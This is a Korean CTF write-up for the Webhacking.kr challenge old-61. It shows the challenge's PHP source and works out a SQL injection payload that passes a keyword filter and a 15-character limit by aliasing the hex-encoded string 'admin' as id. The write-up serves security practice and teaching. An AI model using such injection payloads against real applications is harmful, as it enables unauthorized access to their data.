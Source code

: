 ```yaml
---
title: ["[Webhacking.kr] old-61 (sqli - 20)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  $db = dbconnect();
  if(!$_GET['id']) $_GET['id']="guest";
  echo "<html><head><title>Challenge 61</title></head><body>";
  echo "<a href=./?view_source=1>view-source</a><hr>";
  $_GET['id'] = addslashes($_GET['id']);
  if(preg_match("/\(|\)|select|from|,|by|\./i",$_GET['id'])) exit("Access Denied");
  if(strlen($_GET['id'])>15) exit("Access Denied");
  $result = mysqli_fetch_array(mysqli_query($db,"select {$_GET['id']} from chall61 order by id desc limit 1"));
  echo "<b>{$result['id']}</b><br>";
  if($result['id'] == "admin") solve(61);
  echo "</body></html>";
?>
```


```sql
select {$_GET['id']} from chall61 order by id desc limit 1
```

페이지는 위 SQL 쿼리의 결과를 출력해준다.  
`?id=id` 파라미터 값을 넘기면, `test`가 출력된다.  

`id` 컬럼을 내림차순으로 정렬한 첫 번째 값이 `test`인 것이다.  

```sql
select 0x61646d696e as id from chall61 order by id desc limit 1
```  
이런 방식으로 접근이 가능할 것 같다.  

하지만 페이로드가 18자리이다.  

MySQL에서 alias를 지정할 때는,  
1. `as` 키워드는 선택사항이다.  
2. 원본 컬럼 혹은 표현식 뒤에 공백을 두고 별칭을 쓰면, MySQL은 자동으로 그것을 별칭으로 해석한다.

두 가지 방식이 가능하다.  

```sql
select 0x61646d696e id from chall61 order by id desc limit 1
```
페이로드 길이 제한에 딱 맞는다.  